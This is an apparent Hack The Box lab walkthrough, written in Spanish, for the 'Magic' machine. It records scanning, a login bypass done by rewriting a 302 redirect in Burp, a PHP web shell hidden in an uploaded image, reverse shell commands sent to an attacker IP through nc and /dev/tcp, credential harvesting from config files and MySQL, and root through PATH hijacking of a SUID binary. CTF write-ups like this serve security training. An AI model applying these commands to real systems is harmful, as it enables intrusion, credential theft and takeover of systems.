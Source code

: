 # Magic

IP: 10.10.10.185

## Ping y whichSystem

`ping -c 1 10.10.10.185`

`whichSystem.py 10.10.10.185`

# Scanning

`nmap -p- --open -T5 -v -n 10.10.10.185 -oN allPorts` 

`whatweb http://10.10.10.185`

`nmap -sC -sV -p22,80 10.10.10.185 -oN targetedPorts`

`nmap --script http-enum -p80 10.10.10.185 -oN webScan`


## BurpSite
1. Proxy --> Options --> Dont send items out of scope
2. Target --> Scope --> Add

Abrimos la web en el navegador --> wappalyzer

Buscamos la ruta de donde se guardan las imagenes --> intuimos que se pueden subir archivos

- Probamos la pagina login.php --> existe
- Probamos la página upload.php --> nos redirige a login.php
- Probamos la página uploads.php --> no existe
- Probamos hola.php --> nos da página no existe. 

Así que podemos pensar que uploads.php si que existe y nos redirecciona a login.php

- En burpsite --> Proxy --> Options --> intercept server responses
- Intercept on
- Entramos en upload.php
- Vemos la peticion de envio y todo ok
- Vemos la respuesta del servidor y es 302 --> redirect
- Cambiamos el 302 por 200 y forward

- Subimos shell.php --> sólo permite archivos de imágenes
- Subimos coche.jpg --> http://10.10.10.185/images/uploads/coche.jpg
- Subimos coche.jpg y en burpsite cambiamos la extension por .php.jpg y debajo del raw de la imagen añadimos la shell.php
- Queda subida a images/uploads/coche.php.jpg
- http://10.10.10.185/images/uploads/coche.php.jpg?cmd=whoami
- http://10.10.10.185/images/uploads/coche.php.jpg?cmd=ifconfig

## Reverse Shell

- Cambiamos a bash --> `nc -nlvp 443`
- `ip address` 
- http://10.10.10.185/images/uploads/coche.php.jpg?cmd=nc -e /bin/bash 10.10.14.34 443
- Parece que hay una tarea que borra imagenes, tenemos que volver a subir la iagen
- http://10.10.10.185/images/uploads/coche.php.jpg?cmd=nc -e /bin/bash 10.10.14.34 443 --> no funciona, probamos bash
- http://10.10.10.185/images/uploads/coche.php.jpg?cmd=bash -i >&/dev/tcp/10.10.14.34/443 0>&1 --> no funciona
- http://10.10.10.185/images/uploads/coche.php.jpg?cmd=bash -c "bash -i >&/dev/tcp/10.10.14.34/443 0>&1"
- URL encode online --> bash -c "bash -i >&/dev/tcp/10.10.14.34/443 0>&1" --> bash%20-c%20%22bash%20-i%20%3E%26%2Fdev%2Ftcp%2F10.10.14.34%2F443%200%3E%261%22
- http://10.10.10.185/images/uploads/coche.php.jpg?cmd=bash%20-c%20%22bash%20-i%20%3E%26%2Fdev%2Ftcp%2F10.10.14.34%2F443%200%3E%261%22

- https://www.urlencoder.org/

## Shell

~~~
whoami
ls
script /dev/null -c bash
cd /home/
ls
find \-name user-txt 2>/dev/null
find \-name user-txt 2>/dev/null | xargs ls -l
uname -a
cd /var/www
find \-name config*
grep -r -i -E "user|pass|auth|key|db|database"
su theseus --> pass 
which mysql
cd /magic
ls 
which mysql | grep bin
cat db.php5
mysqlshow -u theseus -p 
mysqlshow -u theseus -p Magic
mysqlshow -u theseus -p Magic login
mysqldump -u theseus -p Magic login
cat /etc/passwd | grep bash
su theseus
cd 
ls
cat user.txt
cd /root
~~~

## Escalar privilegios

`find \-perm -4000 2>/dev/null`

`find \-perm -4000 2>/dev/null | grep -v -E "snap"`

`strings ./bin/sysinfo -n 10`

~~~
echo $PATH
whoami
cd /tmp
which whoami
touch fdisk
chmod 777 fdisk
nano fdisk
~~~

#!/bin/bash

chmod 475 /bin/bash


`export PATH=.:$PATH`

`wich bash | xargs ls -l`

`/bin/sysinfo`

`wich bash | xargs ls -l`

`bash -p`

`whoami`

`cd /root/`

`head root.txt`
